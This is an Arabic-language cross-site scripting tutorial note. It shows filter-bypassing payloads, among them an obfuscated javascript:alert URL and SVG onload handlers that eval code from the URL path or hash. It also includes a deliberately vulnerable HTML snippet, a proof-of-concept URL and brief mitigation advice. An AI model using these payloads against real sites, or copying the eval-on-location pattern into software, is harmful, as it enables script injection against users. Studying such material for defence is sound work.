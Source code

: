 
#### شرح للتبسيط
![2025-06-23 18-31-48.mkv](attachments/2025-06-23 18-31-48.mkv)


**الخلاصة:**
بديل `open` باستخدام `top.open`javas\cript:al\ert\x281\x29`` فعال لأنه يفتح نافذة جديدة ويتجاوز مرشحات التنبيه.

-----
## ✅ ** بديل التنبيه – Eval + URL (Alert Alternative – Eval + URL)**
{ #ideas_for_url  }
**الشرح البسيط:**
يُستخدم لتنفيذ كود JavaScript من URL (في المسار بعد `.php` أو في الجزء `#`) باستخدام `eval`.

**أمثلة تعمل:**
- `<svg onload=eval(" ' "+URL)>`: ينفذ الكود من URL مثل `FILE.php/'/alert(1)//` أو `#'/alert(1)`.
- `<svg id=eval onload=top[id](" ' "+URL)>`: يستخدم قيمة `id` بدلاً من `eval`.

**لماذا يعمل؟**
- `eval` ينفذ سلاسل JavaScript مباشرة.
- يستغل انعكاس URL بدون تعقيم.
- يتجاوز مرشحات تحظر `alert` مباشرة.
### 🔥 الكود المصاب:

```html
<!-- vulnerable6.html -->
<svg onload="eval(' ' + location.hash.substr(1))"></svg>
```

### 💣 PoC:

```
vulnerable6.html#'/alert(1)// 
```

### ✅ الحماية:

- لا تستخدم `eval()`.
    
- استبدل بـ `JSON.parse()` أو logic ثابت.
    
- أو اعمل فلترة لأي بيانات تأتي من `location`.

#### شرح للتبسيط


![2025-06-23 18-37-16.mkv](attachments/2025-06-23 18-37-16.mkv)


**الخلاصة:**
بديل `eval + URL` باستخدام `<svg onload=eval(" ' "+URL)>` فعال لأنه ينفذ كود JavaScript من URL غير مُنظف.

---